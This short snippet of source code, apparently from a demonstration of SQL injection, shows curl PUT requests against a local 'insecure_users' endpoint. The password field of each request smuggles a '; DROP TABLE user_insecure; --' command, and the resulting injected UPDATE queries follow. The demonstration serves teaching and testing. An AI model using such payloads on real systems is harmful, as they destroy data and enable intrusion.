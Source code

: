 # Using curl to demonstrate SQL injection with a PUT request

curl -X PUT -H "Content-Type: application/json" -d '{"username": "attacker", "password": "\'; DROP TABLE user_insecure; --"}' http://127.0.0.1:5002/insecure_users/1

# Using curl to demonstrate SQL injection with a PUT request

curl -X PUT -H "Content-Type: application/json" -d "{\"username\": \"attacker\", \"password\": \"; DROP TABLE user_insecure; --\"}" http://127.0.0.1:5002/insecure_users/1

curl -X PUT -H "Content-Type: application/json" -d '{"username": "attacker", "password": "\"; DROP TABLE user_insecure; --"}' http://127.0.0.1:5002/insecure_user/1

UPDATE user_insecure SET username='attacker', password='"; DROP TABLE user_insecure; --' WHERE id = 2;

UPDATE user_insecure SET username='attacker', password=''; DROP TABLE user_insecure; --' WHERE id = 1;
